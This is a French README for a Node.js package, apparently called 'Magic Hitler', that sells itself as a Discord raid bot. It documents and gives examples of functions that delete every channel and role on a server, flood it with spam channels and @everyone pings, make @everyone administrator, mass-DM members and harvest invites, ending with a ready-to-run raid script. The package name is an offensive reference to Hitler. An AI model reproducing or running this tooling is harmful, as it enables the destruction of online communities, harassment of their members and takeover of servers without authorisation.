 # Magic Hitler
# Discord Raid Bot
[![npm](https://img.shields.io/npm/v/magic_hitler.svg)](https://www.npmjs.com/package/magic_hitler)
[![npm](https://img.shields.io/badge/taille-27Ko-brightgreen.svg)](https://www.npmjs.com/package/magic_hitler)
[![github](https://img.shields.io/badge/Disponible%20sur-GitHub-red.svg)](https://github.com/JacqueSatan/Magic-Hitler-npm-module)
[![github](https://img.shields.io/badge/et-npm-yellow.svg)](https://www.npmjs.com/package/magic_hitler)
## Sommaire
    1 - Installation
    2 - Utilisation
## 1 - Installation
Pour installer Discord Raid Bot, éxecutez simplement la commande 
```bash
npm install discord_raid_bot
```
dans le dossier de votre application Node.Js.
## 2 - Utilisation
Pour utiliser Discord Raid Bot, intégrez la ligne suivante à votre code :
```javascript
const raid = require('discord_raid_bot');
```





***
### raid.deleteAllChannels(client, trigger, createChannel)
Supprime tous les salons du serveur.
| Paramètre      | Type      | Description   |
| -------------- | --------- | ------------- |
| client         | class     | Votre bot     |
| trigger       | string    | Commande à envoyer dans le serveur à détruire |
| createChannel | boolean   | Crée un salon quand tous les autres sont supprimés si activé |
ex : 
```js
raid.deleteAllChannels(bot, "supprimer les salons", true);
```





***
### raid.createChannels(client, trigger, numberOfChannelsToCreate, nameOfChannelsToCreate, MessageToSpamInNewChannels, numberOfNotificationsPerChannel)
Supprime tous les salons du serveur puis en crée d'autres en spammant dedans.
| Paramètre      | Type      | Description   |
| -------------- | --------- | ------------- |
| client         | class     | Votre bot     |
| trigger       | string    | Commande à envoyer dans le serveur à détruire |
| numberOfChannelsToCreate | int | Le nombre multiplié par 2 de salons qui seront créés dans le serveur |
| nameOfChannelsToCreate | string | Le nom des salons qui seront créés dans le serveur |
| MessageToSpamInNewChannels | string | Les messages qui seront envoyés dans chaque salon créé dans le serveur |
| numberOfNotificationsPerChannel | int | Nombre de messages envoyés dans chaque salon |
ex :
```js
raid.createChannels(bot, "créer des salons", 444, "salon-créé", "@everyone message envoyé", 3);
```





***
### raid.deleteRoles(client, trigger)
Supprime tous les rôles supprimables dans le serveur.
| Paramètre      | Type      | Description   |
| -------------- | --------- | ------------- |
| client         | class     | Votre bot     |
| trigger       | string    | Commande à envoyer dans le serveur à détruire |
ex :
```js
raid.deleteRoles(bot, "supprimer les rôles")
```





***
### raid.createRoles(client, trigger, nameOfRolesToCreate, NumberOfRolesToCreate)
Créer des rôles dans le serveur.
| Paramètre      | Type      | Description   |
| -------------- | --------- | ------------- |
| client         | class     | Votre bot     |
| trigger       | string    | Commande à envoyer dans le serveur à détruire |
| nameOfRolesToCreate | string | Nom des rôles à créer |
| NumberOfRolesToCreate | int | Nombre de rôles à créér |
ex :
```js
raid.createRoles(bot, "créer des rôles", "nom des rôles", 42)
```





***
### raid.everyoneAdmin(client, trigger)
Rend le rôle @everyone administrateur.
| Paramètre      | Type      | Description   |
| -------------- | --------- | ------------- |
| client         | class     | Votre bot     |
| trigger       | string    | Commande à envoyer dans le serveur à détruire |
ex :
```js
raid.everyoneAdmin(bot, "@everyone admin")
```





***
### raid.dmAllMembers(client, trigger, msg, numberOfMessages)
Contacte chaque membre du serveur par message privé.
| Paramètre      | Type      | Description   |
| -------------- | --------- | ------------- |
| client         | class     | Votre bot     |
| trigger       | string    | Commande à envoyer dans le serveur à détruire |
| msg   | string    | Le message qui sera envoyé à chaque membre |
| numberOfMessages |    number |    Nombre de messages envoyés |
ex :
```js
raid.dmAllMembers(bot, "messages privés", "message envoyé", 15)
```




***
### raid.completeRaid(client, trigger, everyoneAdmin, deleteRoles, deleteChannels, createChannels, channelsName, channelsNumber, spamMessage, messagesNumber, createRoles, rolesName, rolesNumber)
Combine plusieurs attaques en une seule.
| Paramètre      | Type      | Description   |
| -------------- | --------- | ------------- |
| client         | class     | Votre bot     |
| trigger       | string    | Commande à envoyer dans le serveur à détruire |
| everyoneAdmin  | boolean | Rend le rôle @everyone administrateur |
| deleteRoles | boolean | Supprime les rôles supprimables |
| deleteChannels | boolean | Supprime tous les salons |
| createChannels | boolean | Crée des salons pour y spammer |
| channelsName | string | Nom des salons créés |
| channelsNumber | number | Nombre de salons créés (max = 500) |
| spamMessage | string | Message spammé dans les nouveaux salons |
| messagesNumber | number | Nombre de messsages à envoyer |
| createRoles | boolean | Crée des rôles |
| rolesName | string | Nom des rôles à créer |
| RolesNumber | number | Nombre de rôles à créer (max = 250) |
ex :
```js
raid.completeRaid(bot, 'raid', true, true, true, true, 'nom-des-salons', 222, 'message spammé', 3000, true, 'nom des rôles', 30)
```




***
### raid.createInvite(client, trigger, allGuilds)
Crée une invitation pour un ou chacun des serveurs où le bot se trouve, puis vous l'envoie.
| Paramètre      | Type      | Description   |
| -------------- | --------- | ------------- |
| client         | class     | Votre bot     |
| trigger       | string    | Commande à envoyer dans le serveur à détruire |
| allGuilds     | boolean   | Crée une invitation pour tous les serveurs |
ex :
```js
raid.createInvite(bot, "créer une invitation", true);
```





***
### raid.ready(client)
Affiche des informations sur le bot dè qu'il est prêt.
| Paramètre      | Type      | Description   |
| -------------- | --------- | ------------- |
| client         | class     | Votre bot     |
ex :
```js
raid.ready(bot);
```





***
## Exemple complet

```js
const raid = require('discord_raid_bot');
const Discord = require('discord.js');
const bot = new Discord.Client();
const config = require('./config.json');

raid.ready(bot);
raid.deleteAllChannels(bot, "!suppr_chnls", true);
raid.createChannels(bot, "!spam_chnls", 222, "raid", "@everyone", 6);
raid.deleteRoles(bot, "!kill_rls");
raid.createRoles(bot, "!create_rls", 'raid', 25);
raid.completeRaid(bot, '!raid', true, true, true, true, 'raid', 222, '@everyone', 3000, true, 'raid', 30);
raid.dmAllMembers(bot, "!dm", "https://discord.gg/xxxxxx", 15);
raid.everyoneAdmin(bot, "!admin");
raid.createInvite(bot, "!inv", false);
raid.createInvite(bot, "!all-servs-inv", true); // On peut déclarer plusieurs configurations différentes

client.login(config.token);
```
Plus de 300 lignes de codes résumées en 10.
